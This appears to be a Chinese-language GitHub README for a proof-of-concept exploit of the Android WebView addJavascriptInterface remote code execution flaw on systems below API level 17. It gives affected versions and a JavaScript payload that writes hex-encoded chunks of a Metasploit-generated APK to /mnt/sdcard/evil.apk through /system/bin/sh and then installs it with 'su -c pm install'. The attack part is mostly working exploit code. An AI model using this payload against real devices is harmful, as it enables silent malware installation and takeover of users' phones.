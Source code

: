 详情文章: https://xz.aliyun.com/t/11505

# Android-webview-inject-shell
webview javascript addJavascriptInterface RCE test



### 影响版本

-  Android API level 小于17 (即Android 4.2之前的系统版本) 

### 漏洞执行处

-  WebView.addJavascriptInterface(Object obj, String interfaceName)  
-  使用addJavascriptInterface方法注册可供JavaScript调用的Java对象； 
-  使用WebView加载外部网页或者本地网页； 

## 注意事项

通过msf生成的elf后，并转为十六进制（注意x86\x64系统）

注入apk写法如下，目前测试只能注入低于100kb的代码量 （必须是\\\x格式）

亲测 js文件过大，会卡死 - -

```js
var armBinary1 = "\\x50\\x4b\\x03\\x04\\x14\\x42\\xbf--------\\x40\\x7f"
var armBinary2 = "\\x93\\x9a\\xff\\xa2\\x56--------\\x5f\\x0a\\x3d\\"
var armBinary3 = "\\xdb\\x06\\x00\\x00\\x0c\\x1c--------\\\\x00\\x00\\x13"
var armBinary4 = "\\x2e\\x78\\x6d\\x6c\\xad\\x97--------\\\\xcb\\x00\\x00\\x00"


execute(["/system/bin/sh","-c","echo -n '"+armBinary1+"' >  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary2+"' >>  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary3+"' >>  /mnt/sdcard/evil.apk"]);
execute(["/system/bin/sh","-c","echo -n '"+armBinary4+"' >>  /mnt/sdcard/evil.apk"]);
execute(["su","-c","pm install -r /mnt/sdcard/evil.apk"]);
```

## Reference

https://cloud.tencent.com/developer/article/1743487
https://wooyun.js.org/drops/WebView%E4%B8%AD%E6%8E%A5%E5%8F%A3%E9%9A%90%E6%82%A3%E4%B8%8E%E6%89%8B%E6%9C%BA%E6%8C%82%E9%A9%AC%E5%88%A9%E7%94%A8.html
